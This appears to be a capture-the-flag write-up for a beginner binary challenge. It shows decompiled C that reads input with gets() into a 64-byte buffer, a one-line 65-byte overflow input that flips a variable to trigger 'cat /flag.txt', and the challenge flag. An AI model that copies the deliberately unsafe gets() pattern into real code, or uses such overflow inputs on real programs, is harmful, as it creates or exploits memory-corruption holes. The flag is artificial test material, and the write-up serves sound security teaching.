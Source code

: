 # executable

## Description
No code this time! hahahaha

## Writeup
Put the binary in a decompiler and see the function. This is the output given by Hex-Rays decompiler in dogbolt.
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int v5; // [esp+4Ch] [ebp-Ch]

  setbuf(_bss_start, 0);
  v5 = 0;
  puts("Would you like a flag?");
  gets(s);
  if ( v5 )
    system("cat /flag.txt");
  return 0;
}
```
Clearly, we just have to overwrite the variable v5 and as gets is used, an output larger than 64 bytes will overwrite it (Can be confirmed using gdb as well).
`python -c "print('A'*65)" | ./executable`

## FLAG
COPS{r3v_w17h_pwn}
